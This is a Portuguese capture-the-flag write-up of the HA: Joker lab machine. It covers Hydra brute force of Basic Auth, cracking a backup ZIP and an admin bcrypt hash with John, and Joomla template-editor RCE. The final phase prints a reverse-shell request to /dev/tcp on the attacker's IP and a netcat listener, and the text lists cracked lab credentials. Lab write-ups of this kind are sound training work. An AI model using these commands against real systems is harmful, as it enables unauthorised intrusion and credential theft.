









# 🧭 HA: Joker CTF — CTF Writeup
### VulnHub / TryHackMe | Basic Auth Brute Force · Backup ZIP Leak · Joomla Admin RCE

---

| **Analista**          | Mauricio Robert                                                                        |
|-----------------------|----------------------------------------------------------------------------------------|
| **Organização**       | Faculdade Impacta                                                                      |
| **Data do Relatório** | 30/09/2026                                                                             |
| **Data do Pentest**   | 30/09/2026 · 18:30 – 19:13 (GMT-0300)                                                  |
| **Alvo**              | `10.64.180.12` / `joker.thm` (`ip-10-64-180-12`) — HA: Joker CTF                        |
| **Classificação**     | CONFIDENCIAL                                                                           |
| **Ferramentas**       | Nmap 7.99 · Gobuster 3.8.2 · Hydra 9.7 · John the Ripper (+ zip2john) · Netcat          |
| **Plataforma**        | VulnHub / TryHackMe — Máquina Vulnerável Standalone (Joomla)                            |

---

## 🔍 Resumo Executivo

Este relatório documenta o comprometimento da máquina **HA: Joker CTF**, um alvo temático de Batman/Joker hospedando duas instâncias de um site **Joomla**: uma pública na porta 80 e outra protegida por **autenticação HTTP Basic** na porta 8080. O reconhecimento inicial via **Nmap** e a enumeração de diretórios com **Gobuster** expuseram um `phpinfo.php` revelador e um arquivo `secret.txt` com uma piada temática do Joker — uma pista textual, não uma falha técnica. O verdadeiro avanço veio da porta 8080: a autenticação Basic foi quebrada via **força bruta com Hydra**, revelando as credenciais `joker:hannah`. Com acesso autenticado, uma nova enumeração de diretórios revelou um arquivo de **backup (`backup.zip`)** de aproximadamente 12MB. A senha do ZIP foi quebrada com **John the Ripper** (reutilizando a mesma senha, `hannah`), expondo um dump do banco de dados do Joomla contendo o **hash bcrypt** da senha do usuário administrador (`Super Duper User`). Esse hash foi igualmente quebrado com **John + rockyou.txt**, resultando na senha em texto claro `abcd1234`. Com acesso total ao painel `/administrator/` do Joomla, o vetor final e bem conhecido de **RCE via edição de templates** foi utilizado para hospedar uma web shell PHP (baseada no `pentestmonkey php-reverse-shell`), resultando em uma **reverse shell** como o usuário `www-data`.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta                     | Versão  | Finalidade                                                                             |
|---------------------------------|---------|-------------------------------------------------------------------------------------------|
| **Nmap**                        | 7.99    | Varredura de portas e fingerprint de serviços                                          |
| **Gobuster**                    | 3.8.2   | Enumeração de diretórios (porta 80 sem autenticação e porta 8080 com Basic Auth)         |
| **Hydra**                       | 9.7     | Ataque de força bruta contra a autenticação HTTP Basic da porta 8080                     |
| **zip2john / John the Ripper**  | -       | Extração e quebra do hash de senha do `backup.zip` e do hash bcrypt do administrador     |
| **Netcat**                      | -       | Listener para captura da reverse shell                                                  |
| **Editor de Templates (Joomla)**| -       | Vetor de RCE via customização de template administrativo                                |

---

## 📋 Fases de Comprometimento

### FASE 1 — Reconhecimento: Nmap

```bash
nmap -Pn -p- --min-rate=5000 10.64.180.12
```
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

```bash
sudo nmap -Pn -sV -sC -p22,80,8080 10.64.180.12
```



```
22/tcp   open  ssh    OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp   open  http   Apache httpd 2.4.41 (Ubuntu)
|_http-title: HA: Joker
8080/tcp open  http   Apache httpd 2.4.41
|_http-title: 401 Unauthorized
| http-auth:
|   HTTP/1.1 401 Unauthorized
|_  Basic realm=Please enter the password.
```

Dois serviços web relevantes: a porta **80**, pública, hospedando o site "HA: Joker"; e a porta **8080**, protegida por **autenticação HTTP Basic**, escondendo uma segunda aplicação.

---

### FASE 2 — Enumeração Web (Porta 80): Gobuster

```bash
gobuster dir -u http://10.64.180.12/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 80
```

```
css            (Status: 301) [--> http://10.64.180.12/css/]
img            (Status: 301) [--> http://10.64.180.12/img/]
index.html     (Status: 200) [Size: 5954]
phpinfo.php    (Status: 200) [Size: 95046]
server-status  (Status: 403) [Size: 277]
```

O arquivo **`phpinfo.php`** foi identificado — um arquivo de debug frequentemente esquecido em produção, que expõe detalhes internos do servidor.

---

### FASE 3 — Coleta de Informações via `phpinfo.php`

```
GET /phpinfo.php
```



```
PHP Version 7.2.24-0ubuntu0.18.04.17
System: Linux ip-10-64-180-12 5.15.0-139-generic ... x86_64
Apache Version: Apache/2.4.41 (Ubuntu)
Hostname:Port: ip-10-64-180-12.ec2.internal:80
User/Group: www-data(33)/33
Server Root: /etc/apache2
```

Embora não tenha revelado uma credencial diretamente, o `phpinfo()` confirmou a versão do PHP e do Apache, o usuário de serviço (`www-data`, uid 33) e a estrutura de diretórios do servidor — informações que se mostrariam úteis para validar o acesso obtido mais adiante.

---

### FASE 4 — Easter Egg: `secret.txt`

Durante a mesma enumeração, um arquivo de texto temático também foi localizado na raiz do site:

```
GET /secret.txt
```



```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

Um easter egg temático (consistente com o tema Batman/Joker da sala), sem impacto técnico direto no comprometimento — mais um detalhe de ambientação do que uma pista de exploração.

---

### FASE 5 — Ataque de Força Bruta à Autenticação Basic (Porta 8080)

Com a porta 8080 exigindo autenticação HTTP Basic, o usuário `joker` (nome também presente no domínio `joker.thm`) foi testado como login fixo, com a senha atacada via **Hydra**:

```bash
hydra -l joker -P /usr/share/wordlists/rockyou.txt -f -s 8080 joker.thm http-get /
```



```
[8080][http-get] host: joker.thm   login: joker   password: hannah
[STATUS] attack finished for joker.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Credenciais válidas encontradas: **`joker:hannah`** — liberando o acesso à segunda aplicação Joomla hospedada atrás do Basic Auth.

---

### FASE 6 — Enumeração do Joomla Autenticado (Porta 8080)

Com as credenciais em mãos, uma nova varredura de diretórios foi feita, desta vez autenticada:

```bash
gobuster dir -u http://joker.thm:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -U joker -P hannah -x php,txt,html,bak,conf
```



```
administrator       (Status: 301) [--> http://joker.thm:8080/administrator/]
backup              (Status: 200) [Size: 12133560]
configuration.php   (Status: 200) [Size: 0]
```

Um arquivo **`backup`** de aproximadamente **12 MB** chamou atenção imediatamente — um forte candidato a conter uma cópia completa (arquivos + banco de dados) da instalação Joomla.

---

### FASE 7 — Quebra da Senha do `backup.zip`

O arquivo foi baixado e identificado como um ZIP protegido por senha. Seu hash foi extraído com `zip2john` e submetido ao **John the Ripper**:

```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



```
hash.txt: backup.zip:$pkzip$8*1*1*0*1c*433a*...*/pkzip$::backup.zip:site/libraries/...:backup.zip

hannah           (backup.zip)
1g 0:00:00:00 DONE
```

A senha do ZIP era, mais uma vez, **`hannah`** — a mesma credencial reutilizada do Basic Auth, permitindo a extração completa do backup do site.

---

### FASE 8 — Localizando o Hash do Administrador no Backup

Dentro do backup extraído, um dump SQL do banco de dados Joomla foi localizado, contendo a tabela de usuários:

```bash
grep -i "cc1gr_users" *.sql
```



```
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com',
'$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',0,1,
'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{...}','','0000-00-00 00:00:00',0,'','');
```

O registro do usuário **`admin`** (nome de exibição "Super Duper User") continha um **hash bcrypt** (`$2y$10$...`) de sua senha — o último obstáculo antes do acesso administrativo total ao Joomla.

---

### FASE 9 — Quebra do Hash do Administrador e Acesso ao Painel

O hash foi isolado e novamente submetido ao **John the Ripper**:

```bash
nano hash.txt   # $2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



```
abcd1234         (?)
1g 0:00:00:05 DONE
```

Com as credenciais **`admin:abcd1234`**, o login no painel `/administrator/` foi realizado com sucesso, confirmado pela sessão ativa do usuário **"Super Duper User"** exibida no **Control Panel** do Joomla.

---

### FASE 10 — RCE via Editor de Templates e Reverse Shell

Com acesso administrativo total ao Joomla, o vetor clássico de execução remota de código foi aplicado: edição de um arquivo de template através de **System → Templates → Customise (Protostar)**, criando um novo arquivo `shell.php` com o conteúdo do **php-reverse-shell** (pentestmonkey), apontando para o IP e porta do atacante:

```php
$ip = '192.168.129.38';
$port = 4444;
```



Com um listener ativo:

```bash
nc -lnvp 4444
```

E o arquivo acessado via navegador:

```
GET /templates/protostar/shell.php?cmd=sh%20-i%3E%26%20/dev/tcp/192.168.129.38/4...
```

```
listening on [any] 4444 ...
connect to [192.168.129.38] from (UNKNOWN) [10.64.180.12] 53480
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

Shell reversa obtida com sucesso como o usuário de serviço do Apache (**`www-data`**), confirmando execução remota de código completa através do painel administrativo do Joomla.

---

## ⛓ Linha do Tempo do Comprometimento

```
FASE 1 — RECONHECIMENTO (Nmap)
    22/SSH · 80/HTTP (HA: Joker) · 8080/HTTP (Basic Auth)
    ↓
FASE 2-4 — ENUMERAÇÃO WEB (porta 80)
    phpinfo.php → detalhes do servidor
    secret.txt → easter egg temático (sem impacto técnico)
    ↓
FASE 5 — FORÇA BRUTA (Hydra)
    joker.thm:8080 Basic Auth → joker:hannah
    ↓
FASE 6 — ENUMERAÇÃO AUTENTICADA (Gobuster)
    /administrator/, configuration.php, backup (12MB)
    ↓
FASE 7 — QUEBRA DE SENHA DO ZIP (zip2john + John)
    backup.zip → senha "hannah" (reutilizada)
    ↓
FASE 8 — DUMP DO BANCO DE DADOS
    cc1gr_users → hash bcrypt do admin "Super Duper User"
    ↓
FASE 9 — QUEBRA DO HASH DO ADMIN (John + rockyou)
    admin:abcd1234 → login bem-sucedido em /administrator/
    ↓
FASE 10 — RCE VIA TEMPLATE EDITOR
    shell.php (php-reverse-shell) → nc -lnvp 4444
    SHELL: uid=33(www-data) gid=33(www-data) groups=...,115(lxd) ✓
    ↓
ACESSO INICIAL CONCLUÍDO — usuário de serviço www-data, membro do grupo lxd
```

---

## 🗺 Mapeamento Investigativo

| Fase | Ferramenta/Técnica | Achado |
|------|--------------------|--------|
| Reconhecimento | Nmap 7.99 | SSH (22), HTTP público (80), HTTP com Basic Auth (8080) |
| Enumeração Web | Gobuster 3.8.2 | `phpinfo.php`, `secret.txt` na porta 80 |
| Força Bruta | Hydra 9.7 | Credenciais `joker:hannah` para o Basic Auth da porta 8080 |
| Enumeração Autenticada | Gobuster (com credenciais) | `backup` (12MB), `/administrator/`, `configuration.php` |
| Quebra de Senha (ZIP) | zip2john + John the Ripper | Senha do `backup.zip`: `hannah` |
| Análise do Backup | Dump SQL extraído | Hash bcrypt do usuário `admin` ("Super Duper User") |
| Quebra de Hash (Admin) | John the Ripper + rockyou.txt | Senha em texto claro: `abcd1234` |
| RCE | Editor de Templates do Joomla | Web shell `shell.php` baseada em php-reverse-shell |
| Acesso Obtido | Netcat listener | Shell reversa como `www-data` (uid=33), membro do grupo `lxd` |

---

## 🚨 Artefatos e Indicadores Identificados

| Tipo | Indicador | Contexto |
|------|-----------|----------|
| Alvo | `10.64.180.12` / `joker.thm` | Máquina HA: Joker CTF |
| Serviços expostos | `22/SSH` · `80/HTTP` · `8080/HTTP (Basic Auth)` | Superfície de ataque total |
| Exposição de Informação | `phpinfo.php` | Versão de PHP/Apache e estrutura de diretórios expostas |
| Credencial 1 | `joker:hannah` | Obtida via força bruta (Hydra) contra o Basic Auth da porta 8080 |
| Artefato Sensível | `backup.zip` (~12MB) | Backup completo do site Joomla, protegido por senha reutilizada |
| Credencial 2 (reutilizada) | `hannah` | Senha do `backup.zip`, idêntica à do Basic Auth |
| Hash Vazado | `$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG` | Hash bcrypt do usuário `admin` (`Super Duper User`), extraído do dump SQL do backup |
| Credencial 3 | `admin:abcd1234` | Senha em texto claro após quebra do hash bcrypt |
| Vetor de RCE | Editor de Templates do Joomla (`Protostar`) | Upload indireto de `shell.php` via customização de template administrativo |
| Shell Obtida | `www-data` (uid=33), grupo `lxd` | Indício de vetor adicional de escalação de privilégios via grupo `lxd` (não explorado nesta evidência) |
| Técnica (MITRE ATT&CK) | `T1595.002` | Vulnerability Scanning / Active Scanning (Nmap, Gobuster) |
| Técnica (MITRE ATT&CK) | `T1110.001` | Brute Force: Password Guessing (Hydra contra Basic Auth) |
| Técnica (MITRE ATT&CK) | `T1552.001` | Unsecured Credentials: Credentials In Files (backup.zip, dump SQL) |
| Técnica (MITRE ATT&CK) | `T1110.002` | Brute Force: Password Cracking (John the Ripper) |
| Técnica (MITRE ATT&CK) | `T1078` | Valid Accounts (uso das credenciais de `joker` e `admin`) |
| Técnica (MITRE ATT&CK) | `T1505.003` | Server Software Component: Web Shell (via editor de templates do Joomla) |

---

## ✅ Resumo das Flags

| # | Flag / Marco | Valor | Localização |
|---|------|-------|-------------|
| 🔑 Credencial Basic Auth | `joker:hannah` | Porta 8080 (Hydra) |
| 🔑 Senha do Backup | `hannah` | `backup.zip` (zip2john + John) |
| 🔑 Credencial Administrativa | `admin:abcd1234` | Painel `/administrator/` do Joomla (hash bcrypt quebrado) |
| 🐚 Acesso ao Sistema | `uid=33(www-data)` | Reverse shell via `shell.php` no template Protostar |

---

## 📚 Referências

- [TryHackMe/VulnHub — HA: Joker CTF](https://www.vulnhub.com/entry/ha-joker,613/)
- [pentestmonkey — php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- [GTFOBins / HackTricks — Joomla Admin to RCE via Template Editor](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)
- [MITRE ATT&CK T1110 — Brute Force](https://attack.mitre.org/techniques/T1110/)
- [MITRE ATT&CK T1552.001 — Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK T1505.003 — Web Shell](https://attack.mitre.org/techniques/T1505/003/)

---
